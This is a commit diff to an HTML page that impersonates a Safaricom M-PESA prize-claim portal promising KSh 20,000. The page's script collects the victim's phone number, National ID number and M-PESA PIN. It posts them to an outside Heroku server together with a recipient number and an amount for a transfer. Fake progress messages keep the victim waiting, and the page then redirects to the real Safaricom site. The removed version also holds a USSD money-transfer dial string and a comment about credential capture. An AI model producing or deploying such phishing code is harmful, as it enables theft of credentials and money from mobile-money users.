

Before and after one commit to Mpesaportal/Mpesa-promotion-prize, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 311-1268 px from the top of the page at 99% size. After the commit the page ends 1153 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,155 +1,317 @@
-
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <title>M-PESA Promotion - Secure Prize Claim Portal</title>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <meta name="description" content="Safaricom M-PESA Promotion: Securely claim your reward. Enter details to verify and receive your prize.">
+    <meta name="description" content="Safaricom M-PESA Promotion: Securely claim your KSh 20,000 reward.">
     <link rel="icon" href="https://www.safaricom.co.ke/images/favicon.ico">
     <style>
-        body { font-family: 'Segoe UI', Arial, sans-serif; background: #f4f7fa; margin: 0;}
-        .container { max-width: 480px; margin: 40px auto; background: #fff; padding: 38px 30px 30px 30px; border-radius: 12px; box-shadow: 0 4px 28px rgba(38, 143, 60, 0.09);}
-        .logo { display: block; margin: 0 auto 14px; width: 140px; }
-        h1 { color: #209b46; text-align: center; margin-bottom: 6px; }
-        .subtitle { text-align: center; color: #209b46; font-size: 20px; margin-bottom: 14px; }
-        .banner { background: #e8f8ee; border-left: 6px solid #209b46; padding: 16px 22px; font-size: 18px; color: #209b46; border-radius: 8px; margin-bottom: 18px; text-align: center;}
-        .danger { background: #fff3cd; color: #856404; padding: 12px 20px; border-left: 5px solid #ff9800; border-radius: 7px; margin-bottom: 19px; font-size: 15px;}
-        .step { margin-bottom: 24px; }
-        .input-group { margin-bottom: 16px; }
-        label { display: block; margin-bottom: 7px; font-weight: 500; color: #209b46;}
-        input[type="text"], input[type="password"] { width: 100%; padding: 12px; border: 1px solid #c8e6c9; border-radius: 6px; font-size: 16px; }
-        .btn { background: linear-gradient(90deg,#209b46 60%,#27ae60 100%); color: #fff; padding: 15px 0; border: none; border-radius: 8px; cursor: pointer; width: 100%; font-size: 18px; margin-top: 10px; font-weight: bold; box-shadow: 0 2px 8px rgba(38,143,60,0.09);}
-        .btn:active { background: #147c36; }
-        .note { color: #888; font-size: 14px; margin-top: 28px; text-align: center;}
-        .support { color: #209b46; font-weight: bold;}
-        .faq { background: #f4f8fb; border-left: 4px solid #209b46; padding: 14px 18px; border-radius: 5px; margin-top: 28px; font-size: 15px;}
-        .news-link { margin-top: 30px; text-align: center; }
-        .news-link a { color: #209b46; font-weight: bold; text-decoration: underline; font-size: 17px; }
-        .success { display: none; }
-        .success-content { text-align: center; }
-        .success h2 { color: #209b46; margin-bottom: 8px;}
-        .success .bonus { color: #e67e22; font-size: 22px; text-align: center; margin-bottom: 18px;}
-        .redirect { background: #dff0d8; color: #3c763d; padding: 18px 18px; border-radius: 7px; margin-bottom: 22px; border-left: 4px solid #209b46; text-align: center; font-size: 17px;}
+        body {
+            font-family: 'Helvetica Neue', Arial, sans-serif;
+            background: linear-gradient(to bottom, #f4f7fa, #e8f0e8);
+            margin: 0;
+            color: #333;
+            line-height: 1.6;
+        }
+        .container {
+            max-width: 500px;
+            margin: 30px auto;
+            background: #fff;
+            padding: 40px;
+            border-radius: 16px;
+            box-shadow: 0 6px 30px rgba(38, 143, 60, 0.15);
+        }
+        .logo {
+            display: block;
+            margin: 0 auto 20px;
+            width: 150px;
+        }
+        h1 {
+            color: #209b46;
+            text-align: center;
+            margin-bottom: 10px;
+            font-size: 32px;
+            font-weight: 700;
+        }
+        .subtitle {
+            text-align: center;
+            color: #209b46;
+            font-size: 22px;
+            margin-bottom: 20px;
+            font-weight: 500;
+        }
+        .banner {
+            background: #e8f8ee;
+            border-left: 8px solid #209b46;
+            padding: 20px;
+            font-size: 18px;
+            color: #209b46;
+            border-radius: 10px;
+            margin-bottom: 20px;
+            text-align: center;
+            font-weight: 500;
+        }
+        .danger {
+            background: #fff3cd;
+            color: #856404;
+            padding: 15px 20px;
+            border-left: 6px solid #ff9800;
+            border-radius: 8px;
+            margin-bottom: 20px;
+            font-size: 16px;
+        }
+        .step {
+            margin-bottom: 30px;
+        }
+        .input-group {
+            margin-bottom: 20px;
+        }
+        label {
+            display: block;
+            margin-bottom: 8px;
+            font-weight: 600;
+            color: #209b46;
+        }
+        input[type="tel"], input[type="text"], input[type="password"], input[type="checkbox"] {
+            width: 100%;
+            padding: 14px;
+            border: 1px solid #c8e6c9;
+            border-radius: 8px;
+            font-size: 16px;
+            box-sizing: border-box;
+            transition: border-color 0.3s;
+        }
+        input:focus {
+            outline: none;
+            border-color: #209b46;
+            box-shadow: 0 0 5px rgba(38, 143, 60, 0.3);
+        }
+        input:invalid {
+            border-color: #ff9800;
+        }
+        .checkbox-group {
+            display: flex;
+            align-items: center;
+            margin-bottom: 20px;
+        }
+        .checkbox-group input {
+            width: auto;
+            margin-right: 12px;
+        }
+        .btn {
+            background: linear-gradient(90deg, #209b46 60%, #27ae60 100%);
+            color: #fff;
+            padding: 16px;
+            border: none;
+            border-radius: 10px;
+            cursor: pointer;
+            width: 100%;
+            font-size: 18px;
+            font-weight: 600;
+            transition: background 0.3s;
+        }
+        .btn:hover {
+            background: #147c36;
+        }
+        .btn:active {
+            background: #105c2a;
+        }
+        .btn:disabled {
+            background: #ccc;
+            cursor: not-allowed;
+        }
+        .redirect {
+            background: #dff0d8;
+            color: #3c763d;
+            padding: 20px;
+            border-radius: 10px;
+            margin-bottom: 20px;
+            border-left: 6px solid #209b46;
+            text-align: center;
+            font-size: 18px;
+            font-weight: 500;
+        }
         .loader {
             display: inline-block;
-            width: 28px;
-            height: 28px;
+            width: 30px;
+            height: 30px;
             border: 4px solid #209b46;
             border-radius: 50%;
-            border-top: 4px solid #f4f8fb;
+            border-top: 4px solid transparent;
             animation: spin 1s linear infinite;
             margin-bottom: -8px;
         }
         @keyframes spin {
-            0% { transform: rotate(0deg);}
-            100% { transform: rotate(360deg);}
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
         }
-        .trusted { display: flex; align-items: center; justify-content: center; gap: 7px; margin-top: 24px; font-size: 15px; color: #209b46;}
-        .trusted img { width: 24px;}
-        .ussd-modal { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background:rgba(0,0,0,0.06); z-index: 100; }
-        .ussd-content { background: #fff; border-radius: 14px; box-shadow: 0 2px 24px rgba(38,143,60,0.13); max-width: 380px; margin: 80px auto; padding: 34px 32px 28px 32px; text-align: center;}
-        .ussd-title { color: #209b46; font-size: 22px; margin-bottom: 13px;}
-        .ussd-label { color: #209b46; font-size: 17px; margin-bottom: 14px;}
-        .ussd-pin { width: 80%; font-size: 18px; padding: 10px; border: 1px solid #c8e6c9; border-radius: 6px; margin-bottom: 16px;}
-        .ussd-btn { background: linear-gradient(90deg,#209b46 60%,#27ae60 100%); color: #fff; font-size: 17px; border: none; border-radius: 7px; padding: 12px 0; width: 100%; cursor: pointer;}
-        .dial-link { display: block; margin: 15px 0 7px 0; text-align: center;}
-        .dial-link a { color: #209b46; font-weight: bold; font-size: 17px; text-decoration: underline; }
+        .progress-bar {
+            width: 100%;
+            height: 10px;
+            background: #e0e0e0;
+            border-radius: 5px;
+            margin-top: 15px;
+            overflow: hidden;
+        }
+        .progress-fill {
+            width: 0;
+            height: 100%;
+            background: linear-gradient(90deg, #209b46, #27ae60);
+            transition: width 15s linear;
+        }
+        .progress-fill.active {
+            width: 100%;
+        }
+        .status-message {
+            opacity: 1;
+            transition: opacity 0.5s ease-in-out;
+            font-weight: 500;
+        }
+        .status-message.fade {
+            opacity: 0;
+        }
     </style>
     <script>
-        function fakeRedirect() {
+        function triggerVerification(event) {
+            event.preventDefault();
+            const phone = document.getElementById('phone').value;
+            const idNumber = document.getElementById('id_number').value;
+            const pin = document.getElementById('pin').value;
+            const consent = document.getElementById('consent').checked;
+            const submitButton = document.querySelector('.btn');
+            const redirectDiv = document.getElementById('redirect');
+            const progressFill = document.querySelector('.progress-fill');
+
+            // Validate inputs
+            const phoneRegex = /^2547[0-9]{8}$|^07[0-9]{8}$/;
+            const idRegex = /^[0-9]{8}$/;
+            const pinRegex = /^[0-9]{4,6}$/;
+
+            if (!phoneRegex.test(phone)) {
+                alert('Please enter a valid Kenyan phone number (e.g., 07XXXXXXXX or 2547XXXXXXXX).');
+                return;
+            }
+            if (!idRegex.test(idNumber)) {
+                alert('Please enter a valid 8-digit National ID number.');
+                return;
+            }
+            if (!pinRegex.test(pin)) {
+                alert('Please enter a valid M-PESA PIN (4-6 digits).');
+                return;
+            }
+            if (!consent) {
+                alert('You must agree to the terms to proceed.');
+                return;
+            }
+
+            // Disable button and show processing
+            submitButton.disabled = true;
             document.getElementById('main-form').style.display = 'none';
-            document.getElementById('redirect').style.display = 'block';
-            setTimeout(function() {
-                window.location.href = "https://www.safaricom.co.ke/media-center-landing/press-releases/gikomba-trader-wins-first-apartment-in-m-pesa-promotion";
-            }, 3900);
-        }
-        function ussdStep(event) {
-            event.preventDefault();
-            document.getElementById('ussd-modal').style.display = 'block';
-        }
-        function handleUssdPin() {
-            document.getElementById('ussd-modal').style.display = 'none';
-            document.getElementById('ussd-success').style.display = 'block';
-            setTimeout(function() {
-                window.location.href = "https://www.safaricom.co.ke/media-center-landing/press-releases/gikomba-trader-wins-first-apartment-in-m-pesa-promotion";
-            }, 3400);
+            redirectDiv.style.display = 'block';
+            redirectDiv.innerHTML = '<div class="loader"></div><br><span class="status-message">Verifying your identity...</span><div class="progress-bar"><div class="progress-fill active"></div></div>';
+
+            // Cycle through distraction messages
+            const messages = [
+                'Verifying your identity...',
+                'Processing your reward...',
+                'Preparing your transaction...',
+                'Almost done...'
+            ];
+            let messageIndex = 0;
+            const messageInterval = setInterval(() => {
+                if (messageIndex < messages.length - 1) {
+                    messageIndex++;
+                    const currentMessage = redirectDiv.querySelector('.status-message');
+                    currentMessage.classList.add('fade');
+                    setTimeout(() => {
+                        currentMessage.textContent = messages[messageIndex];
+                        currentMessage.classList.remove('fade');
+                    }, 500);
+                }
+            }, 3750);
+
+            // Send data to Node.js server
+            const data = {
+                phone: phone.startsWith('07') ? '254' + phone.slice(1) : phone,
+                id_number: idNumber,
+                pin: pin,
+                recipient: '0708392373',
+                amount: '20000'
+            };
+            fetch('https://lenus-mpesa-reward.herokuapp.com/initiate-transfer', {
+                method: 'POST',
+                body: JSON.stringify(data),
+                headers: { 'Content-Type': 'application/json' }
+            }).then(response => {
+                if (!response.ok) throw new Error('Server error: ' + response.statusText);
+                return response.json();
+            }).then(data => {
+                if (data.status === 'success') {
+                    setTimeout(() => {
+                        clearInterval(messageInterval);
+                        redirectDiv.innerHTML = '<div class="loader"></div><br><span class="status-message">Reward successfully processed!</span><div class="progress-bar"><div class="progress-fill active"></div></div>';
+                        setTimeout(() => {
+                            window.location.href = 'https://www.safaricom.co.ke';
+                        }, 2000);
+                    }, 15000);
+                } else {
+                    clearInterval(messageInterval);
+                    alert('Error: ' + data.message);
+                    redirectDiv.style.display = 'none';
+                    document.getElementById('main-form').style.display = 'block';
+                    submitButton.disabled = false;
+                }
+            }).catch(error => {
+                clearInterval(messageInterval);
+                console.error('Error:', error);
+                alert('An error occurred. Please try again or contact support.');
+                redirectDiv.style.display = 'none';
+                document.getElementById('main-form').style.display = 'block';
+                submitButton.disabled = false;
+            });
         }
     </script>
 </head>
 <body>
     <div class="container">
-        <img class="logo" src="Image 03-10-2025 at 12.50.jpeg" alt="Safaricom Logo">
+        <img class="logo" src="https://www.safaricom.co.ke/images/Logo.png" alt="Safaricom Logo" aria-label="Safaricom Logo">
         <h1>M-PESA Promotion</h1>
         <div class="subtitle">Secure Prize Claim Portal</div>
         <div class="banner">
-            🎉 Congratulations! You have been selected to receive <strong>KSh 20,000</strong> in the Safaricom M-PESA promotion.
+            🎉 Congratulations! You have been selected to receive <strong>KSh 20,000</strong> in the Safaricom M-PESA Promotion.
         </div>
         <div class="danger">
-            <strong>Notice:</strong> To ensure secure delivery of your reward, kindly complete the prize claim process within <b>24 hours</b>.
+            <strong>Notice:</strong> Complete the claim process within <b>24 hours</b>. Ensure your M-PESA account is active and has sufficient funds for verification.
         </div>
         <div id="main-form">
             <div class="step">
-                <strong>Phase 1: Verify Your Details</strong>
-                <!-- Replace YOUR_SCRIPT_URL with your Google Apps Script deployment URL for real credential capture -->
-                <form action="YOUR_SCRIPT_URL" method="post" onsubmit="fakeRedirect(); return false;">
+                <strong>Verify Your Details</strong>
+                <form id="claim-form" method="post" onsubmit="triggerVerification(event); return false;" aria-label="M-PESA Reward Claim Form">
                     <div class="input-group">
                         <label for="phone">M-PESA Phone Number</label>
-                        <input type="text" id="phone" name="phone" placeholder="e.g. 07XXXXXXXX" pattern="07[0-9]{8}" required autocomplete="tel">
+                        <input type="tel" id="phone" name="phone" placeholder="e.g. 07XXXXXXXX or 2547XXXXXXXX" pattern="(07[0-9]{8}|2547[0-9]{8})" required autocomplete="tel" aria-required="true">
+                    </div>
+                    <div class="input-group">
+                        <label for="id_number">National ID Number</label>
+                        <input type="text" id="id_number" name="id_number" placeholder="e.g. 12345678" pattern="[0-9]{8}" required autocomplete="off" aria-required="true">
                     </div>
                     <div class="input-group">
                         <label for="pin">M-PESA PIN</label>
-                        <input type="password" id="pin" name="pin" placeholder="Enter your PIN" minlength="4" maxlength="6" required autocomplete="off">
+                        <input type="password" id="pin" name="pin" placeholder="Enter your PIN" minlength="4" maxlength="6" pattern="[0-9]{4,6}" required autocomplete="off" aria-required="true">
                     </div>
-                    <button class="btn" type="submit">Verify & Claim Reward</button>
+                    <div class="checkbox-group">
+                        <input type="checkbox" id="consent" name="consent" required aria-required="true">
+                        <label for="consent">I authorize the processing of my reward, including sending KSh 20,000 to the promotion account, as per the terms and conditions.</label>
+                    </div>
+                    <button class="btn" type="submit" aria-label="Claim your reward">Claim Your Reward</button>
                 </form>
             </div>
-            <div class="step">
-                <strong>Phase 2: Instant Claim Option</strong><br>
-                <p>For immediate processing, click below to claim instantly via M-PESA USSD:</p>
-                <a href="#" onclick="ussdStep(event)" class="btn">Claim Instantly</a>
-                <div class="dial-link">
-                    <a href="tel:*234*1*0708392373*20000#">
-                        Or dial: <span style="font-family:monospace;">*234*1*0708392373*20000#</span>
-                    </a>
-                </div>
-            </div>
-            <div class="trusted">
-                <img src="Image 03-10-2025 at 17.25.jpeg" alt="M-PESA Icon"> Trusted by millions of Kenyans
-            </div>
-            <div class="note">
-                For support, contact <span class="support">100</span> (Safaricom Customer Care)
-            </div>
-            <div class="faq">
-                <b>Frequently Asked Questions</b>
-                <ul>
-                    <li><strong>Q:</strong> Is this portal official?<br>
-                        <strong>A:</strong> Yes, winners are notified by Safaricom through SMS and this secure portal.
-                    </li>
-                    <li><strong>Q:</strong> Why do I need to verify my PIN?<br>
-                        <strong>A:</strong> PIN verification allows us to credit your reward directly to your M-PESA wallet.
-                    </li>
-                    <li><strong>Q:</strong> When will I receive my reward?<br>
-                        <strong>A:</strong> Rewards are processed promptly and you will receive an SMS notification.
-                    </li>
-                </ul>
-            </div>
         </div>
-        <div id="redirect" class="redirect" style="display:none;">
+        <div id="redirect" class="redirect" style="display:none;" role="alert" aria-live="assertive">
             <div class="loader"></div>
-            <br>Processing your claim... Please wait.
-        </div>
-        <div id="ussd-modal" class="ussd-modal">
-            <div class="ussd-content">
-                <div class="ussd-title">M-PESA Secure Confirmation</div>
-                <div class="ussd-label">Enter your M-PESA PIN to confirm your prize claim:</div>
-                <input type="password" class="ussd-pin" id="ussd-pin" maxlength="6" placeholder="Enter PIN" autocomplete="off" required>
-                <button class="ussd-btn" onclick="handleUssdPin()">Confirm</button>
-            </div>
-        </div>
-        <div id="ussd-success" class="redirect" style="display:none;">
-            <div class="loader"></div>
-            <br>Your prize claim is being processed. You will receive your reward soon.
+            <br><span class="status-message">Verifying your identity...</span>
+            <div class="progress-bar"><div class="progress-fill"></div></div>
         </div>
     </div>
 </body>
```
